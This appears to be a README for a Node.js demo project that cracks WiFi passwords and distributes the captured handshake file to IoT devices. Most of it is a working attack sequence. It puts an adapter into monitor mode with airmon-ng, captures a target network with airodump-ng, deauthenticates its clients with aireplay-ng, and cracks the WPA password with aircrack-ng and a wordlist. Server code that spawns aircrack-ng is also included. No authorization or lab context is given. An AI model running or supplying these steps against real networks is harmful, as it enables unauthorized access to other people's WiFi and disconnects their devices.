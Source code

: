 # Install Help

after clone:

`npm install`

run both on IoT_device and main device which use to detect WIFI:

`npm start`

---

In main device which used to detect WIFI, it should have wlan1 in monitor mode. wlan1 is the external WIFI adaptor in most of case. wlan0 is the on-board WIFI adaptor

* you may get some problem when you are trying to put your external WIFI adaptor into monitor mode

  here is how I solved:

  ```root# airmon-ng start wlan1
  root# airmon-ng start wlan1
  // it may ask you airmon-ng check kill
  // do it in anyway because NetworkManager // is not working very well with aircrack
  
  root# airmon-ng check kill
  
  // then turn do airmon-ng start wlan1 again to make sure wlan is in monitor mode
  root# airmon-ng start wlan1
  
  // then restrat NetworkManager
  root# service NetworkManager restart
  
  // use iwconfig to check wlan1 is in 
  // monitor mode
  root# iwconfig
  ```


---

Before running the server on the main server that used to detect WIFI, run following steps make sure the device can do WIFI crack.



for example: in my raspi with kali Linux, you should have external WIFI adapter named wlan1, and then do the following steps to test if aircrack-ng work

```
root# airmon-ng start wlan1 // start wlan into monitor mode

root# airodump-ng wlan1 
// search wifi in moitor and remember WIFI bssid and channel you want to crack

root# airodump-ng wlan1 --bssid xxxxx -c xx -w wificrack
// make a connection from device to WIFI router get packet that captures raw 802.11 frames 

!!!!!!!open another terminal!!!!!!!

root# aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX(bssid) wlan1
// There are different attacks which can cause deauthentications for the purpose of capturing WPA handshake data, fake authentications.

root# aircrack-ng XXX(cap file) -w (wordlist file)
// crack the WIFI password
```



## IP config:

**IP address set during cap send out to IoT devices**

In routes/index.js file

```nodejs
function sendFile(back) {
  .
  .
  .
  .
  var filename = 'wificrack.cap';
  var target = '***your iot_device_ipaddress***' + path.basename(filename);
  var rs = fs.createReadStream(filename);
  .
  .

  make as many file sendout posts request as you like
  .
  .
  .
  .

  });
```

---

## Another Things:

* in this project is only to show the demo of our concepts, **I manually set the fixed WIFI's BSSID that used to be receiving the 4-handshake file**.

  ```
  you can change by here and make it dynamic or make it to your setting:
  /routes/index.js
  function runattack(back) {
  .
  .
  .
    var key = "";
    // if you want to use it in a anywhere or in your environment you should change here
    // for your purpose you should set up a http request includes the bssid.
    // but for demo, i don't need so much customization
    var cmd = spawn('aircrack-ng', ['-b', '**the bssid of WIFI**', '-q', '-w', './routes/password.txt', './routes/wificrack.cap'], {shell: true});
  .
  .
  .
  
  ```

* Because I am limited by resource, the only alive IoT device is my computer and **I manually set it to be alive and will be always one**, for your setup.